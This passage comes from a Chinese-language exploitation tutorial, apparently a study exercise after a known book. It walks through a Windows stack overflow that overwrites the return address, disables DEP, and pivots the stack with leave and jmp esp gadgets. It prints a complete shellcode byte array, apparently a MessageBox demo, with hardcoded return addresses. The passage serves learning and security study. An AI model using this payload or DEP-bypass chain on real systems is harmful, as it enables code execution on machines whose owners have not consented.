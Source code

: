 ![](<http://ww1.sinaimg.cn/large/7fb67c86gy1g1hh4t8y08j20nu0jdabu.jpg>)

计算好覆盖的位置，我们创建的是176个字节的数组，所以shellcode+\x90凑够176个字节，接下来就是用上面的置1覆盖，接着放关闭DEP的地址。

	char shellcode[]=

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"

	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"

	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"

	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"

	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"

	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"

	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"

	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"

	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"

	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"

	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"

	"\xA0\xC1\x80\x7C"

	"\x24\xbe\x93\x7c"

调试

![](<http://ww1.sinaimg.cn/large/7fb67c86gy1g1hhg56deuj21100lutaz.jpg>)

发现我们已经成功的把retn的位置覆盖成我们需要的地址。我们继续往下走，我们可以看到这里的EBP-4已经成功覆盖成0\x2（00000010）了，接下来我们就可以关闭DEP。

![](<http://ww1.sinaimg.cn/large/7fb67c86gy1g1hhhlu66lj210h0n3q5j.jpg>)

但我们发现这里程序返回到了一个我们无法控制的地方。

![](<http://ww1.sinaimg.cn/large/7fb67c86gy1g1hhjka7bjj211d0n2ju1.jpg>)

这让我们无法继续执行shellcode，所以我们需要在关闭DEP之后重新返回到我们能控制的位置。（这里需要提的一点是在原书上作者在这里碰到了写入异常的问题，所以在前面就进行了对栈的调整，但我这里没有遇到这个问题，所以这里前面并没有对栈进行调整，虽然后面还是用到了这一步，但我考虑的和原作者不同。）

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hjfirwzlj20fi06474l.jpg>)

我们可以发现在关闭DEP函数的最后有一个leave，这个指令的意思等同于

mov esp,ebp和pop ebp

所以我们可以提前把ebp的值固定在我们需要的位置，并且之后不对ebp有操作，再在retn的位置覆盖为一个jmp那么我们就可以在经过leave之后的retn返回到我们需要的位置。寻找修改ebp的指令还是和上面的一样插件

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hjpush39j20mg0a53zc.jpg>)

因为levea还有一个pop ebp，所以我们还是把jmp到esp比较稳妥，jmp
esp的指令用这个插件的另一个选项找

